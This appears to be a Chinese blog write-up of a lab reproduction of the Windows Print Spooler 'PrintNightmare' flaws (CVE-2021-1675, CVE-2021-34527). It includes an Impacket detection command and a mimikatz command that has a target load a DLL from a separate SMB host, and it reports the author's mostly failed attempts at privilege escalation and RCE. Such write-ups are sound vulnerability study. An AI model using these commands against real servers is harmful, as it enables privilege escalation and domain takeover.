








¶漏洞简介
¶CVE-2021-1675
Print Spooler是Windows系统中管理打印事务的服务，用于管理所有本地和网络打印队列并控制所有打印工作。Windows系统默认开启该服务，攻击者可绕过RPCAddPrintDriver的身份验证，直接在打印服务器中安装恶意驱动程序。普通用户可以利用此漏洞提升至管理员权限。在域环境下，域用户可以远程利用该漏洞以SYSTEM权限在域控制器上执行任意代码，从而获得整个域的控制权。
¶CVE-2021-34527
34527的漏洞原理与1675一致，但因为github上发布的EXP可以绕过微软在6月安全补丁更新中发布的1675的修复程序。所以在7月2日，微软官方针对公开的EXP发布了CVE-2021-34527的漏洞公告，并提供临时解决方案，但目前暂未发布修复补丁，此漏洞仍处于0day状态。
¶漏洞时间线
2021-06-09 微软发布月度安全补丁：通告定义CVE-2021-1675为本地提权漏洞
2021-06-21 微软更新通告：将CVE-2021-1675改为远程代码执行漏洞
2021-07-02 微软紧急发布CVE-2021-34527通告（未发布补丁）
¶影响版本
阅读本篇文章能了解到：printSpooler, 2008, 2012, RCE
Windows Server 2012 R2 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 (Server Core installation)
Windows Server 2012
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
Windows Server 2008 for x64-based Systems Service Pack 2
Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
Windows Server 2008 for 32-bit Systems Service Pack 2
Windows RT 8.1
Windows 8.1 for x64-based systems
Windows 8.1 for 32-bit systems
Windows 7 for x64-based Systems Service Pack 1
Windows 7 for 32-bit Systems Service Pack 1
Windows Server 2016 (Server Core installation)
Windows Server 2016
Windows 10 Version 1607 for x64-based Systems
Windows 10 Version 1607 for 32-bit Systems
Windows 10 for x64-based Systems
Windows 10 for 32-bit Systems
Windows Server, version 20H2 (Server Core Installation)
Windows 10 Version 20H2 for ARM64-based Systems
Windows 10 Version 20H2 for 32-bit Systems
Windows 10 Version 20H2 for x64-based Systems
Windows Server, version 2004 (Server Core installation)
Windows 10 Version 2004 for x64-based Systems
Windows 10 Version 2004 for ARM64-based Systems
Windows 10 Version 2004 for 32-bit Systems
Windows 10 Version 21H1 for 32-bit Systems
Windows 10 Version 21H1 for ARM64-based Systems
Windows 10 Version 21H1 for x64-based Systems
Windows Server, version 1909 (Server Core installation)
Windows 10 Version 1909 for ARM64-based Systems
Windows 10 Version 1909 for x64-based Systems
Windows 10 Version 1909 for 32-bit Systems
Windows Server 2019 (Server Core installation)
Windows Server 2019
Windows 10 Version 1809 for ARM64-based Systems
Windows 10 Version 1809 for x64-based Systems
Windows 10 Version 1809 for 32-bit Systems
¶复现
该漏洞可实现本地提权和RCE
测试脚本（ps1）：
¶1. 检测
使用Impacket套件检测
1 | python3 rpcdump.py @192.168.2.118 | findstr MS-RPRN |
若存在漏洞：
Protocol: [MS-RPRN]: Print System Remote Protocol

¶2. 本地提权测试结果
- 2008
域环境和本地均测试失败

- 2012
普通用户，提权失败

管理员，提权成功

该脚本完成提权会直接创建一个管理员用户，可以看到2012成功在管理员权限下，并无意义
¶3. RCE测试结果
先开启smb匿名访问，使用3gstudent的脚本开启

开启成功，用目标机2012访问\\192.168.2.50\smb\正常
- 使用
cube0x0脚本攻击

利用失败，查询错误原因，发现作者说要使用他魔改的impacket
重装，再次攻击，还是失败

- 使用
mimikatz攻击
1 | misc::printnightmare /server:192.168.2.104 /library:\\192.168.2.50\smb\server.dll |

均提示0x5 access denied，但实际上目标访问dll是正常的
¶总结
该漏洞虽然显示为通杀，但实测低版本成功率较低，高版本未测，据说能成功
坑点较多，基本都是smb匿名访问不到造成
通用性并不是很强，针对高版本windows（2016等）成功率才会高一些，
提权较为实用，RCE用于域控才能发挥最大效益
¶参考链接
https://www.t00ls.net/viewthread.php?tid=62007
https://www.t00ls.net/viewthread.php?tid=61657
https://www.t00ls.net/thread-62109-1-1.html